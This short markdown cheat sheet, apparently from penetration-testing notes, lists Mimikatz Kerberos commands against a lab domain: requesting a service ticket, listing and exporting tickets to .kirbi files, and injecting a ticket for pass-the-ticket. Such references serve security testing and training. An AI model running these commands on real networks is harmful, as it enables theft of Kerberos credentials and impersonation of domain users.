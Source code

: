 # Mimikatz

**Service Ticket Request**
```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```
**List Available Tickets**
```
kerberos::list
```
**Export Service Tickets**
```
kerberos::list /export
```
**Inject Ticket**
```
kerberos::ptt PENTESTLAB.kirbi
```
